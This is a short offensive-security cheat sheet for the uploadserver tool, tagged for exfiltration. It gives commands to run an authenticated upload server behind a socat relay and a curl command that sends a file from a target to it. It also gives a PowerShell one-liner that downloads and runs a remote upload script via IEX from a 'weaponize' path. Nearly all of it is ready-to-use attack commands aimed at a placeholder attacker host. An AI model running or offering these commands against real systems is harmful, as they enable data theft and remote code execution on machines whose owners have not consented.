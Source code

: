 # uploadserver
% file transfer, exfiltration, injecton

#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 

## install
```bash
pipx install uploadserver
```

## python upload HTTP server (basic auth)
sudo socat TCP-LISTEN:80,fork TCP:localhost:9090
```bash
uploadserver --basic-auth-upload <uploadserver_login>:<uploadserver_password> -b <bind_ip|127.0.0.1> <http_user_port|9090>
```

## curl upload
```bash
curl -X POST http://<local_ip>:<port|80>/upload -F 'files=@<path>' -u <uploadserver_login>:<uploadserver_password>
```

## powershell upload
certutil -encode <infile> <outfile>
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<local_ip>:<port|80>/<psupload_path>PSUpload.ps1');Invoke-FileUpload -Uri http://<local_ip>:<port|80>/upload -User <uploadserver_login> -Pass <uploadserver_password> -File <path>
```

= psupload_path: windows/windows_weaponize/dev/